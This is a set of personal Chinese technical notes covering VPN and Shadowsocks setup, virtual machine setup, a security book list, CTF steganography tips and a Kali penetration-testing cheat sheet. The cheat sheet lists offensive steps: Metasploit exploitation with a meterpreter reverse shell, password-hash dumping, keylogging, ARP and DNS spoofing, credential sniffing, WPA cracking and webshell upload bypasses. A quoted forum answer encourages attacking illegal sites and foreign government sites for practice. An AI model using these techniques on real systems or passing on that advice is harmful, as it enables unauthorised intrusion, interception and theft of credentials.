5. 单击openvpn-gui，在右下角openvpn-gui上单击鼠标右键，根据自己所在网络，到ustc-dianxin或其他菜单中，单击"connect"可以连接vpn。

6. 有用户碰到windows10下DNS查询异常，使用如下方式解决：
   文本编辑器打开ovpn配置文件。末尾插入一行，内容为： block-outside-dns

5. Linux 使用
发信人: sh (二月：63cm/39.5cm/5kg), 信区: USTCnet
标  题: [转载]在debian下使用openvpn
发信站: 瀚海星云 (2005年03月13日21:30:37 星期天), 站内信件

1. 安装 openvpn 包
2. 下载如下文件
     http://openvpn.ustc.edu.cn/ustc-dianxin.ovpn       - Windows下的配置文件
     http://openvpn.ustc.edu.cn/ustc-liantong.ovpn       - Windows下的配置文件
     http://openvpn.ustc.edu.cn/ustc-cmcc.ovpn       - Windows下的配置文件
     http://openvpn.ustc.edu.cn/ca.crt          - 证书
3. 把ustc.ovpn中的user和group这两个选项都注释(#或;)，并指明ca的绝对路径，
   最后ustc.ovpn有用的内容如下：
client
dev tap
proto udp
remote 218.22.21.12 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca /etc/openvpn/ca.crt
comp-lzo
verb 3
auth-user-pass
4. 用root运行openvpn --config ustc.ovpn，会要求你输入VPN的用户名和密码。然后
   就会看到屏幕上大堆的信息，最后出现 Initialization Sequence Completed 的信
   息就表示已经连上了。这时ifconfig tap0和route都会显示连到了211.86网段。
5. 如果不希望每次都交互式的输入用户名和密码，就在auth-user-pass后面跟上一个
   文件名，其内容就是用户名和密码各占一行。
6. 连接成功以后不会自动回到命令行，如果这时按Ctrl-C会导致连接退出。我怀疑和
   verb参数有关。也许可以设置为0。不过重定向应该也没有问题。
**** shadowsocks
vultr.com租服务器
ssh
运行以下命令:
wget --no-check-certificate -O shadowsocks-all.sh https://raw.githubusercontent.com/teddysun/shadowsocks_install/master/shadowsocks-all.sh
chmod +x shadowsocks-all.sh
./shadowsocks-all.sh 2>&1 | tee shadowsocks-all.log
选择脚本（Python、R、Go、libev），任选一个：
Which Shadowsocks server you'd select:
1.Shadowsocks-Python
2.ShadowsocksR
3.Shadowsocks-Go
4.Shadowsocks-libev
Please enter a number (default 1):
笔者选择Shadowsocks-Go，输入3......然后，输入密码和端口，笔者直接回车用默认：
You choose = Shadowsocks-Go

Please enter password for Shadowsocks-Go
(default password: teddysun.com):

password = teddysun.com

Please enter a port for Shadowsocks-Go [1-65535]
(default port: 8989):

port = 8989


Press any key to start...or Press Ctrl+C to cancel
安装成功后，命令行出现：
Congratulations, Shadowsocks-Go server install completed!
Your Server IP        :  45.32.73.59
Your Server Port      :  8989
Your Password         :  teddysun.com
Your Encryption Method:  aes-256-cfb

Welcome to visit: https://teddysun.com/486.html
Enjoy it!
（如果安装失败，请尝试其他脚本）
Chrome插件——SwitchyOmega
去chrome商场安装 SwitchyOmega插件。
配置代理
1.proxy模式（如图）：
代理协议：socks5
代理服务器：127.0.0.1 // 本地ip
代理端口：1080 // Shadowsocks客户端配置的代理端口

按左边的“应用选项”让配置生效。
2.auto switch模式
把需要代理的域名或网址，输入到条件中，情景模式选proxy（刚才配置的）；
默认情景模式，建议"直接连接"，意思是不配置条件的网址默认不代理。

在插件栏点击SwitchOmega，选"auto switch"

浏览 google.com
如果google能正常访问，证明你搭建Shadowsocks成功了！

Debian 9 (Stretch) 上部署 shadowsocks-libev 服务端并开启混淆
就个人看法来说，如果操作系统采用 Debian，无论是作为客户端还是服务端，使用 shadowsocks-libev 都是一种非常舒适流畅的体验。本文介绍如何在 Debian 系统中搭建 ss-libev 服务端。
注：以下的所有命令，都是针对 Debian 9 Stretch，并在 root 用户下执行的。
安装
添加 stretch-backports：
sh -c 'printf "deb http://deb.debian.org/debian stretch-backports main" > /etc/apt/sources.list.d/stretch-backports.list'

apt update
安装 shadowsocks-libev 和 simple-obfs：
apt -t stretch-backports install shadowsocks-libev simple-obfs -y
配置
编辑配置文件：
vim /etc/shadowsocks-libev/config-obfs.json
/etc/shadowsocks-libev/config-obfs.json
{
    "server":["::0","0.0.0.0"],
    "server_port":端口,
    "local_port":1080,
    "password":"密码",
    "timeout":60,
    "method":"aes-256-gcm",
    "mode":"tcp_and_udp",
    "fast_open":false,
    "plugin":"obfs-server",
    "plugin_opts":"obfs=http"
}
接下来，编辑 /etc/default/shadowsocks-libev 指定使用哪个配置文件，如下所示，更改了文件中 CONFFILE 的值（改成了 config-obfs.json ）：
vim /etc/default/shadowsocks-libev
/etc/default/shadowsocks-libev
# Defaults for shadowsocks initscript
# sourced by /etc/init.d/shadowsocks-libev
# installed at /etc/default/shadowsocks-libev by the maintainer scripts
#
# This is a POSIX shell fragment
#
# Note: `START', `GROUP' and `MAXFD' options are not recognized by systemd.
# Please change those settings in the corresponding systemd unit file.
# Enable during startup?
START=yes
# Configuration file
CONFFILE="/etc/shadowsocks-libev/config-obfs.json"
# Extra command line arguments
DAEMON_ARGS="-u"
# User and group to run the server as
USER=nobody
GROUP=nogroup
# Number of maximum file descriptors
MAXFD=32768
启动并检查
激活服务，以便开机自动启动：
systemctl enable shadowsocks-libev
启动服务：
systemctl start shadowsocks-libev
查看服务状态：
systemctl status shadowsocks-libev
至此，对服务端的部署配置愉快完成。
Debian 9 (Stretch) 上使用 shadowsocks-libev 客户端并开启混淆
本文介绍如何在 Debian 系统上使用 ss-libev 客户端。服务端部署教程见这里。
注：使用 simple-obfs 混淆时，请确认服务端同样开启了混淆功能。以下的所有命令，都是针对 Debian 9 Stretch，并在 root 用户下执行的。
安装
添加 stretch-backports：
sh -c 'printf "deb http://deb.debian.org/debian stretch-backports main" > /etc/apt/sources.list.d/stretch-backports.list'

apt update
安装 shadowsocks-libev 和 simple-obfs：
apt -t stretch-backports install shadowsocks-libev simple-obfs -y
配置
编辑配置文件：
vim /etc/shadowsocks-libev/config-obfs.json
/etc/shadowsocks-libev/config-obfs.json
{
    "server":"服务器地址",
    "server_port":端口,
    "local_port":1080,
    "password":"密码",
    "timeout":60,
    "method":"aes-256-gcm",
    "mode":"tcp_and_udp",
    "fast_open":false,
    "plugin":"obfs-local",
    "plugin_opts":"obfs=http;obfs-host=混淆用的域名"
}
启动并检查
激活服务，以便开机自动启动：
systemctl enable shadowsocks-libev-local@config-obfs
启动服务：
systemctl start shadowsocks-libev-local@config-obfs
查看服务状态：
systemctl status shadowsocks-libev-local@config-obfs
至此，对客户端的配置完成，代理服务在 localhost:1080 上。

*** vm
**** VMware
***** Install linux-header package
$ sudo apt-get install linux-headers-$(uname -r)
***** VMwaretools
apt install open-vm-tools
Procedure
On the host, from the Workstation Pro menu bar, select VM > Install VMware Tools.
If an earlier version of VMware Tools is installed, the menu item is Update VMware Tools.

In the virtual machine, log in to the guest operating system as root and open a terminal window.
Run the mount command with no arguments to determine whether your Linux distribution automatically mounted the VMware Tools virtual CD-ROM image.
If the CD-ROM device is mounted, the CD-ROM device and its mount point are listed as something like this:

 /dev/cdrom on /mnt/cdrom type iso9660 (ro,nosuid,nodev)
If the VMware Tools virtual CD-ROM image is not mounted, mount the CD-ROM drive.
If a mount point directory does not already exist, create it.
 mkdir /mnt/cdrom
Some Linux distributions use different mount point names. For example, on some distributions the mount point is /media/VMware Tools rather than /mnt/cdrom. Modify the command to reflect the conventions that your distribution uses.

Mount the CD-ROM drive.
 mount /dev/cdrom /mnt/cdrom
Some Linux distributions use different device names or organize the /dev directory differently. If your CD-ROM drive is not /dev/cdrom or if the mount point for a CD-ROM is not /mnt/cdrom, modify the command to reflect the conventions that your distribution uses.

Change to a working directory, for example, /tmp.
cd /tmp

Delete any previous vmware-tools-distrib directory before you install VMware Tools.
The location of this directory depends on where you placed it during the previous installation. Often this directory is placed in /tmp/vmware-tools-distrib.

List the contents of the mount point directory and note the filename of the VMware Tools tar installer.
 ls mount-point
Uncompress the installer.
 tar zxpf /mnt/cdrom/VMwareTools-x.x.x-yyyy.tar.gz
The value x.x.x is the product version number, and yyyy is the build number of the product release.

If you attempt to install a tar installation over an RPM installation, or the reverse, the installer detects the previous installation and must convert the installer database format before continuing.

If necessary, unmount the CD-ROM image.
 umount /dev/cdrom
If your Linux distribution automatically mounted the CD-ROM, you do not need to unmount the image.

Run the installer and configure VMware Tools.
 cd vmware-tools-distrib
./vmware-install.pl
Usually, the vmware-config-tools.pl configuration file runs after the installer file finishes running.

Follow the prompts to accept the default values, if appropriate for your configuration.
Follow the instructions at the end of the script.
Depending on the features you use, these instructions can include restarting the X session, restarting networking, logging in again, and starting the VMware User process. You can alternatively reboot the guest operating system to accomplish all these tasks.
Insall Workstation Pro from a Linux Host
sh  xx.bundle
Uninstall Workstation Pro from a Linux Host
vmware-installer -u vmware-workstation
**** virtualbox
virtualbox
kali linux 安装 virtualbox 遇到'modprobe vboxdrv'错误解决方法,reboot
apt-get install linux-headers-$(uname -r)
sh ./autorun.sh
reboot
sh ./VBoxLinuxAdditions-amd64.run
 挂载共享文件夹
mkdir /mnt/share
 mount -t vboxsf share /mnt/share
如果提示 /sbin/mount.vboxsf: mounting failed with the error: No such device
可能是没有载入内核模块 vboxfs ，先查看下：
#lsmod | grep vboxsf
如果没有结果返回，说明 vboxsf没有载入，执行
#sudo modprobe vboxsf
正常的话mount -t vboxsf winshare /mnt/share共享文件夹应该可以访问了
#cd /mnt/share
#ls -al
假如您不想每一次都手动挂载，可以在/etc/fstab中添加一项
share /mnt/share vboxsf rw,gid=100,uid=1000,auto 0 0
这样就能够自动挂载了。
本人这样做了，但是每次启动都挂接不上，因此使用以下方法，在系统启动时执行挂接脚本，成功自动挂接
#vi /etc/rc.d/rc.local
在文件的最后加入上面手动挂接的命令，比如：
mount -t vboxsf sharefolder /share
取消挂载
#sudo umount -f /mnt/shared

*** redhat
rhce rhcsa rhca
** network
*** cisco
ccna ccnp ccie
Todd Lammle-CCNA Routing and Switching Complete Study Guide_ Exam 100-105, Exam 200-105, Exam 200-125-Sybex (2016)
Implementing Cisco IP Routing (ROUTE) Foundation Learning Guide: (CCNP ROUTE 300-101) (Foundation Learning Guides)
Implementing Cisco IP Switched Networks(SWITCH)Foundation Learning Guide CCNP SWITCH 300-115
Troubleshooting and Maintaining Cisco IP Networks (TSHOOT) Foundation Learning Guide: (CCNP TSHOOT 300-135) (Foundation Learning
(Certification Guide) Narbik Kocharians, Terry Vinson-CCIE Routing and Switching v5.0 Official Cert Guide, Volume 2. 2_2-Cisco Press (2015)
[Certification Guide] Narbik Kocharians, Peter Palúch - CCIE Routing and Switching v5.0 Official Cert Guide, Volume 1 1_2(2015, Cisco Press).pdf

** database
** security
JBiFrost、China Chopper、Mimikatz、PowerShell Empire、HTran
*** books
计算机及系统原理
 《编码：隐匿在计算机软硬件背后的语言》 【美】Charles Petzold
 《深入理解计算机系统》【美】Randal E.Bryant
 《深入理解Windows操作系统》【美】Russinovich,M.E.；Solomon,D.A.
 《Linux内核设计与实现》【美】Robert Love
 《深入理解Android内核设计思想》林学森
 《Android系统源代码情景分析》罗升阳
 《深入理解Mac OS X & iOS操作系统》【美】Jonathan Levin
 《深入理解Linux内核》 【美】DanielP.Bovet
 《代码揭秘：从C/C++的角度探秘计算机系统》左飞
 《Android Dalvik虚拟机结构及机制剖析（第1、2卷）》吴艳霞；张国印
 《Android Internals::Power User's View》【美】Jonathan Levin，中文书名《最强Android书：架构大剖析》已上架
编程开发
系统平台
Windows
 《Windows程序设计》【美】Charles Petzold
 《Windows核心编程》【美】Jeffrey Richter
 《Windows环境下32位汇编语言程序设计》罗云彬
 《Windows驱动开发技术详解》张帆
Linux/Unix
 《UNIX环境高级编程》【美】W.Richard Stevens；Stephen A.Rago
 《Linux程序设计》【美】Neil Matthew；Richard Stones
 《鸟哥的Linux私房菜》鸟哥
 《Linux设备驱动程序》【美】Jonathan Corbet；Alessandro Rubini；Gerg Kroah-Hartman
macOS/iOS
 《iOS编程》【美】Christian Keur；Aaron Hillegass
 《OS X与iOS内核编程）【澳】Halvorsen,O.H.；Clarke,D
Android
 《第一行代码——Android》郭霖
 《Android编程权威指南》【美】Brian Hardy；BillPhillips
编程语言
C
 《C语言程序设计》【美】Brian W.Kernighan；Dennis M.Ritchie
 《C Primer Plus》【美】Stephen Prata，入门书籍
 《C和指针》【美】Kenneth A.Reek
 《C陷阱与缺陷》【美】Andrew Koenig
 《C专家编程》【美】Peter van der Linden
C++
 《C++ Primer Plus》【美】Stephen Prata，入门书籍
 《C++ Primer》【美】Stanley B.Lippman；Josée Lajoie；Barbara E.Moo，进阶书籍
ASM
 《Intel汇编语言程序设计》【美】Kip Irvine
 《Intel开发手册》
 《汇编语言（第3版）》王爽
 《x86汇编语言：从实模式到保护模式》李忠
Java
 《Java核心技术》【美】Cay S.Horstmann；Gary Cornell，入门书籍
 《Java 编程思想》【美】Bruce eckel，进阶书籍
JavaScript
 《JavaScript DOM编程艺术》【美】Jeremy Keith；【加】Jeffrey Sambells
 《JavaScript高级程序设计》【美】Zakas.Bicholas C.
Python
 《Python核心编程（第2版）》【美】Wesley JChun
Shell
 《Linux Shell脚本攻略》【印】Sarath Lakshman
调试技术
 《软件调试》张银奎
 《Debug Hacks》【日】吉冈弘隆；大和一洋；大岩尚宏；安部东洋；吉田俊辅
 《格蠹汇编：软件调试案例锦集》张银奎
数据结构与算法
 《数据结构与算法分析——C语言描述》【美】Mark Allen Weiss
 《算法导论》【美】Thomas H.Cormen；Chales E.Leiserson；Ronald l.Rivest
编译原理
 《编译系统透视：图解编译原理》新设计团队，入门书籍
 《编译原理》（龙书）【美】Alfered V.Aho；Monica S.Lam；Ravi Sehi；Jeffrey D.Ullmam
其他
 《编程高手箴言》梁肇新
 《代码整洁之道》【美】Robert C.Martin
 《代码大全》【美】Steve McConnell
网络技术
 《TCP/IP详解（卷1：协议）》【美】Kevin R.fall；W.Richard Stevens
 《Wireshark数据包分析实战》【美】Chris Sanders
安全技术
安全开发
 《天书夜读：从汇编语言到Windows内核编程》谭文；邵坚磊
 《Rootkit：系统灰色地带的潜伏者》【美】Bill Blunden
 《Rootkits——Windows内核的安全防护》【美】Gerg Hoglund；James Butler
 《BSD ROOTKIT设计——内核黑客指引书》【美】Joseph Kong
 《寒江独钓：Windows内核安全编程》谭文；杨潇；邵坚磊
逆向工程
 《恶意软件分析诀窍与工具箱——对抗“流氓”软件的技术与利器》【美】Michael Hale Ligh；Steven Adair
 《C++反汇编与逆向分析技术揭秘》钱林松；赵海旭
 《IDA权威指南》【美】Chris Eagle
 《逆向工程权威指南》【乌克兰】Dennis Yurichev，多平台入门大全
 《Android软件安全与逆向分析》丰生强
 《macOS软件安全与逆向分析》丰生强
 《iOS应用逆向工程（第2版）》沙梓社；吴航
Web安全
 《黑客攻防技术宝典：Web实战篇》【美】Marcus Pinto，Dafydd Stuttard
 《白帽子讲Web安全》吴翰清
 《Web安全测试》【美】Paco Hope；Ben Waltber
 《Web前端黑客技术揭秘》钟晨鸣；徐少培
 《精通脚本黑客》曾云好
软件/系统安全
 《0day安全：软件漏洞分析技术（第2版）》王清，入门书籍
 《漏洞战争：软件漏洞分析精要》林桠泉，进阶书籍
 《捉虫日记》【德】Tobias Klein，进阶书籍
 《黑客防线2009缓冲区溢出攻击与防范专辑》
 《内核漏洞的利用与防范》【美】Enrico Perla；Massimiliano Oldani
 《Fuzzing for Software Security Testing and Quality Assurance（第2版）》【美】Charlie Miller，博文视点翻译中
 《iOS Hackers's Handbook》【美】Charlie Miller，不推荐中文版
 《The Mac Hacker's Handbook》【美】Charlie Miller
 《Android安全攻防权威指南》【美】Joshua J.Drake；【西】Pau Oliva Fora；【美】Collin Mulliner
 《The Art of Softwar Security Assessment:Identifying and Preventing Software Vulnerabilities》【美】Mark Dowd
 《Android安全攻防实战》【美】Keith Makan；Scott Alexander-Bow
 《模糊测试-强制性安全漏洞挖掘》【美】Michael Mutton
 《Exploit编写系列教程》【美】Corelan Team
 《MacOS and iOS Internals,Volume Ⅲ: Security & Insecurity》【美】Jonathan Levin，博文视点翻译中，预计今年上市
 《灰帽黑客：正义黑客的道德规范、渗透测试、攻击方法和漏洞分析技术》【美】Allen Harper；Shon harris
 《威胁建模：设计和交付更安全的软件》【美】Adam Shostack
无线电安全
 《无线电安全攻防大揭秘》杨卿；黄琳
硬件安全
 《硬件安全攻防大揭秘》简云定，杨卿
汽车安全
 《智能汽车安全攻防大揭秘》李均；杨卿
 《汽车黑客大曝光》【美】Craig Smith
产品
 《人人都是产品经理》苏杰
运营
 《运营之光2.0：我的互联网运营方法论与自白》黄有璨
设计
 《写给大家看的设计书》【美】Robin Williams
 《听故事，学PPT设计》杨雪
软技能
 《软技能：代码之外的生存指南》【美】John Sonmez
 《程序员健康指南》【美】JoeKutner
 《影响力》【美】Robert B.Cialdini
 《穷爸爸富爸爸》【美】Robert Toru Kiyosaki
 《横向领导力》【美】Roger Fisher；Alan Sharpe
 《职业情商》张新越
 《程序员的成长课》安晓辉；周鹏
 《高效演讲：斯坦福最受欢迎的沟通课》【美】Peter Meyers；Shann Nix
 《程序员的英语》【韩】朴栽浒；李海永
 《思考，快与慢》【美】丹尼尔卡尼曼
 《少有人走的路》【美】斯科特派克
 《异类：不一样的成功启示录》【加】 马尔科姆格拉德威尔
 《见识》吴军
 《英语写作手册：风格的要素》【美】William Strunk
 《非暴力沟通》【美】马歇尔卢森堡
 《风格感觉：21世纪写作指南》【美】史蒂芬平克

*** kali
kali启动Apache Http的服务：
/etc/init.d/apache2 start
将写好的网页另存为index.html放进 /var/www 目录
*** spear phish
*** penetration testing
**** kali

1.信息搜集
DNS信息搜集，google,dns.txt暴力破解，whois，反向查询,命令dnsenum,dnsmap
路由信息搜集,tcptraceroute,tctrace
All-in-one智能搜集Maltego

2.扫描工具
主机发现，nmap,ping,arping,fping,genlist,hping3,nbtscan(MS hosts,NetBIOS),nping,onesixtyone(snmp),protos(router)
操作系统指纹,nmap,被动识别，p0f(Cisco IPS使用的),主动识别，xprobe2
端口扫描，nmap,netifera,autoscan,
服务探测,nmap,amap,httprint,httsquash
VPN探测,ike-scan,sslscan

3.漏洞发现
Nessus,AWVS
Cisco,Cisco Auditing Tools,Cisco Passwd Scanner,扫描Cisco routers
snmp,ADMsnmp,Snmp enum
http,Burp Suite,Grendel Scan,Nikto,W3AF,WafW00f(测试应用级防火墙)
SMB,Samrdump

4.社会工程学
Java Applet Attack Method,Social Engineering Toolkit,setoolkit(/usr/share/set),设置文件,自签名，证书，clone website,email fishing，swaks,木马，encoding，
Credential Harvester Attack Method，获取账号密码

5.运用层攻击MSF
Metasploit Framework

MSF在线攻击
db_nmap，存入MSF数据库
自动攻击，db_autopwn,sessions -i
sysinfo
copy hash,run hashdump,暴力破解账号密码，brute force,ophcrack(暴力破解Windows账号密码)
ps看系统进程,找管理员进程，exporer.exe,migrate pid
键盘记录keyscan start,keyscan dump，keyscan stop
远程桌面remote desktop，run getgui -e,useradd，run getgui -u user -p password，远程桌面连接，rdesktop destination ip:port

MSF离线攻击
msfpayload
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST ip
set LPORT port
exploit

6.局域网攻击
MAC泛洪攻击，MAC flooding attack,dsniff,macof
Yersinia,CDP,DHCP,DTP,HSRP,STP攻击
Arpspoof，启用主机路由功能，echo 1 > /proc/sys/net/ipv4/ip_forward,arpspoof -t ip1 ip2,arpspoof -t ip2 ip1,
Ettercap，ARP欺骗，DNS欺骗
ARP欺骗:
ettercap:
nano /usr/local/etc/etter.conf配置文件
Sniff > Unified sniffing > Network interface: eth0 > OK 设置抓包的网卡
Hosts > Scan for hosts (do this two times)扫描网段的主机
Hosts > Hosts list 显示主机列表
Select the default gateway > Add to Target 1 添加主机
Select the target > Add to Target 2 添加主机
Mitm > Arp poisoning > Sniff remote connections > OK 设置ARP攻击
Start > Start sniffing 开始攻击
dsniff -i eth0 监听网卡窃听登录用户密码
urlsnarf -i eth0 嗅探http请求
msgsnarf -i eth0 嗅探聊天软件的聊天内容
driftnet -i eth0 网络管理嗅探图片，音频。

dns欺骗:
nano /usr/local/share/ettercap/etter.dns编辑配置文件
Plugins > Manage the plugins > dns_spoof 设置dns欺骗
Mitm > Arp poisoning > Sniff remote connections > OK 设置ARP
Start > Start sniffing 开始攻击

7.密码破解
外接网卡（好像不用）
开始监控网卡，airmon-ng start wlan0
查看无线，airodump-ng -w filename mon0
改信道，airodump-ng -c ch  filename mon0
开始deauth攻击，aireplay-ng -0 ch  -a  apmac -c destinationmac mon0
出现WPA handshake字段
修改字典
通过字段破解WPA密码,aircrack-ng -w dictionary filename-*.cap
Cisco在线密码破解工具，ncrack -U userdic -v -P passwordic https://10.1.1.2

8.维持访问
DNS隧道
ping隧道
ssl隧道
proxy，3proxy
netcat,nc,制作后门，传文件，中继

tools,Metasploit Framework nmap awvs nessus sqlmap Cain&Abel IOS-Router dictionary
dvwa
扫描网站探 测CMS特征，/robots.txt
旁站
c段
内网
IIS6.0解析漏洞 windows server2003
IIS7.0，IIS7.5,windows server2008解析漏洞,Nginx<8.03,a.jpg/shell.php,a.jpg;.php
burpsuite抓包，改上传类型，加%00，复制%00，发送URL-decode，复制上传文件路径
webshell免杀，Encryption and decryption
Google Hacking
webshell提权，php用root，MS溢出，找可读可写可执行文件
远程桌面，连接超数，mstsc /admin /v:ip:port
访问目标网站
寻找上传点，访问上传路径，运行马
获取shell
提权Privilege Escalation
*** CRYPTOLOGY
1.密码
RAR
ASCII，BASE64，URL，MD5，HEX编码
MD5在线解密网址
比武常见加解密
凯撒密码，维吉尼亚密码（!KEY），摩尔斯电码，栅栏密码（一般字母不会太多，提示“栅栏”），BRAINFUCK，0OK
HTTP://TOOL.BUGKU.COM
ZIP
音频，MP3STEGO
视频，
WINHEX，WXHEXEDITOR，HEXDUMP

RAR,ZIP
压缩源文件数据区：
50 4B 03 04：这是头文件标记（0X04034B50）
14 00：解压文件所需 PKWARE 版本
00 00：全局方式位标记（有无加密）
08 00：压缩方式
5A 7E：最后修改文件时间
F7 46：最后修改文件日期
16 B5 80 14：CRC-32校验（1480B516）
19 00 00 00：压缩后尺寸（25）
17 00 00 00：未压缩尺寸（23）
07 00：文件名长度
00 00：扩展记录长度
6B65792E7478740BCECC750E71ABCE48CDC9C95728CECC2DC849AD284DAD0500
压缩源文件目录区：
50 4B 01 02：目录中文件文件头标记(0X02014B50)
3F 00：压缩使用的 PKWARE 版本
14 00：解压文件所需 PKWARE 版本
00 00：全局方式位标记（有无加密，这个更改这里进行伪加密，改为09 00打开就会提示有密码了）
08 00：压缩方式
5A 7E：最后修改文件时间
F7 46：最后修改文件日期
16 B5 80 14：CRC-32校验（1480B516）
19 00 00 00：压缩后尺寸（25）
17 00 00 00：未压缩尺寸（23）
07 00：文件名长度
24 00：扩展字段长度
00 00：文件注释长度
00 00：磁盘开始号
00 00：内部文件属性
20 00 00 00：外部文件属性
00 00 00 00：局部头部偏移量
6B65792E7478740A00200000000000010018006558F04A1CC5D001BDEBDD3B1CC5D001BDEBDD3B1CC5D001
压缩源文件目录结束标志：
50 4B 05 06：目录结束标记
00 00：当前磁盘编号
00 00：目录区开始磁盘编号
01 00：本磁盘上纪录总数
01 00：目录区中纪录总数
59 00 00 00：目录区尺寸大小
3E 00 00 00：目录区对第一张磁盘的偏移量
00 00：ZIP 文件注释长度

2.图片隐写
基本属性，记事本打开，二维码，QR RESEARCH，
分层
BINWALK  DOCUMENT
DD IF=源文件   OF=新文件  SKIP=分离头   BS=1
FOREMOST  源文件

PNG改高度，十六进制，第二行为文件高度，适当改后出FLAG

3.数据类型改写
检查图像的开头标志和结束标志是否正确，若不正确修改 图像标志恢复图像
JPG图像开始标志：FF D8 结束标志 ：FF D9
GIF图像开始标志：47 49 46 38 39 61 (GIF89)结束标志：01 01 00 3B
BMP图片开始标志：42 4D //92 5B 54 00 00 00  00 00 结束标志：00
PNG图片开始标志：89 50 结束标志：

（固定）八个字节89 50 4E 47 0D 0A 1A 0A为PNG的文件头
（固定）四个字节00 00 00 0D（即为十进制的13）代表数据块的长度为13
（固定）四个字节49 48 44 52（即为ASCII码的IHDR）是文件头数据块的标示（IDCH） -
（可变）13位数据块（IHDR) - 前四个字节代表该图片的宽 - 后四个字节代表该图片的高 - 后五个字节依次为： BIT（第二行） DEPTH、COLORTYPE、COMPRESSION METHOD、FILTER METHOD、INTERLACE METHOD - （可变）剩余四字节为该PNG的CRC检验码，由从IDCH到IHDR的十七位字节进行CRC计算得到。


找表示宽度和高度的位置的话，可以先看看图片的属性，得到宽高值，转成16进制，搜索16进制值就找到了

4.算法隐写
F5算法隐写，KALI F5-STEGANOGRAPHY，文件复制到KALI下，   在KAIL下切换到F5-STEGANOGRAPHY，在JAVA EXTRACT运行
命令：JAVA EXTRACT 123456.JPG图片的绝对地址 -P 123456
判断是否为F5算法隐写

LSB算法隐写，STEGSOLVE对图像进行分通道扫描

GUESS算法隐写
在KAIL下切换到OUTGUESS目录下，直接用命令即可
命令:OUTGUESS -R /ROOT/ANGRYBIRD.JPG(绝对路径) 123.TXT(信息存放的文本)
OUTGUESS -K “MY SECRET KEY” -D HIDDEN.TXT DEMO.JPG OUT.JPG   # 隐藏
outguess -k “my secret key” -r out.jpg hidden.txt            #提取
四.工具使用
1.MP3stego
encode -E hidden_text.txt -P pass svega.wavsvega_stego.mp3
Decode.exe -X -P pass(密码) svega_stego.mp3(要拷贝到目录下) //解码
2.stedgetect
Stegdetect可以检测到通过JSteg、JPHide、OutGuess、Invisible Secrets、F5、appendX和Camouflage等这些隐写工具隐藏的信息
s – 修改检测算法的敏感度，该值的默认值为1。检测结果的匹配度与检测算法的敏感度成正比，算法敏感度的值越大，检测出的可疑文件包含敏感信息的可能性越大。
d – 打印带行号的调试信息。
t – 设置要检测哪些隐写工具（默认检测jopi），可设置的选项如下：
j – 检测图像中的信息是否是用jsteg嵌入的。
o – 检测图像中的信息是否是用outguess嵌入的。
p – 检测图像中的信息是否是用jphide嵌入的。
i – 检测图像中的信息是否是用invisible secrets嵌入的。
命令：stegdetect.exe -tjopi -s10.0 xxx.jpg
请求或响应中包含特定内容：http contains “flag”
*** web靶场
链接：https://www.zhihu.com/question/267204109/answer/320502511
来源：知乎
著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。
一、前期
一系列的练习平台，大部分都有题解，实在十几天弄不出来可以看看题解。
SQL注入：RedTiger's Hackit
web:网络安全实验室|网络信息安全攻防学习平台
综合：[WeChall] Challenges
经典老平台：南京邮电大学网络攻防训练平台
综合性新平台：CTF - 练习平台
渗透：Penetration test lab
综合性黑客game：Game of Hacks
XCTF的训练平台：XCTF实训平台 | 登 录
I春秋的CTF复现平台：https://www.ichunqiu.com/racing/58837
安恒的平台：登录 - 明御® 攻防实验室
一个综合的新平台，貌似里面二进制的题挺好：Jarvis OJ
一个高端平台，里面有一些硬件、云安全、内网渗透的题：Exploit Exercises
又一个高端平台，里面有一些Oracle、密码学之类的题目：Under the Wire
渗透练习平台：https://pentest.training/mockexams.php
一个代码审计的平台（不是web方向，有很多都是C语言的审计，墙裂建议女装大佬来秒）：Websec
一个封装好的CTF平台：Vulnerable Docker VM - NotSoSecure
也是封装好的一些训练环境：Vulnerable By Design ~ VulnHub
PHP安全训练平台：PHP Security Advent Calendar 2017
一个国外的CTFwiki，质量好像一般:Forgotten Security’s CTF Wiki
一个和Metasploit配套的靶场---Metasploitable： http://downloads.metasploit.com/data/metasploitable/metasploitable-linux-2.0.0.zip
CTF工具库： CTF资源库|CTF工具下载|CTF工具包|CTF工具集合

以上是我自己整理的内容，同时推荐其它大佬的资源整理贴~
个人总结-网络安全学习和CTF必不可少的一些网站 - ida0918的博客 - CSDN博客


二、中期
打一些有奖金的CTF比赛，一些优质的CTF比赛还是比较贴近实战的，比如17年的HCTF
CTF时间表：
XCTF比赛的时间表：首页 - XCTF社区
大型比赛的时间表：All about CTF (Capture The Flag)
CTF指南：CTF Rank，你的CTF参赛指南
CTFwiki：墙裂推荐！CTF Wiki
2018年的CTF竞赛 2018·CTF·信息安全竞赛导航

一些CTF大佬的博客：
Hackfun - | Secblog | Pentest | Auditing | Sectool | CTF Write-up
Go0s @ 老 锥
Swing'Blog 有恨无人省
http://haojiawei.xyz/page/3/
pcat - 博客园
Si1ence's Blog - 雨一落，化开我眼中的冰，蔓延成河。
Medici.Yan's Blog
Radiation's blog
http://l-team.org/
Sebastian Neef - 0day.work
https://www.jimwilbur.com/
M4x - 博客园
当然，也不要仅仅局限于CTF比赛，多用docker去复现一些CVE环境，自己玩玩儿，再跟着P神学一下代码审计，不要拿到别人网站源码还不知道怎么getshell~一些闭源的cms，很容易审出洞。
这里在推荐一下p神的一个项目，用docker-compose去一键复现漏洞环境。
vulhub/vulhub首页 | 离别歌vulhub/vulhub

三、后期
那些刻意的环境已经满足不了你了，去实战吧
日常关注着漏洞预警：Exploits Database by Offensive Security
瞄准相关漏洞之后，用shodan去进行漏洞全球主机探测：Shodan Manual · GitBook
先知安全服务平台
漏洞银行(BUGBANK) 官方网站 | 全球领先的漏洞发现平台
补天 - 企业和白帽子共赢的漏洞响应平台，帮助企业建立SRC，库带计划 - 国内首个现金奖励漏洞平台
一些非法网站，比如黄网、赌博网站也可以用来练手，反正是它们也是违法的，但不要去谋取利益就好。
大陆政府的网站绝对不要碰。如果心痒痒就去搞国外zf的，因为他们的人也在搞咱们政府的练手。

*** tools
hexedit,wxHexEditor
** algorithms and data structures
** emacs
*** setup
git clone https://github.com/purcell/emacs.d.git ~/.emacs.d
fcitx安装以及在emacs中输入中文
2014-10-11T09:27:00
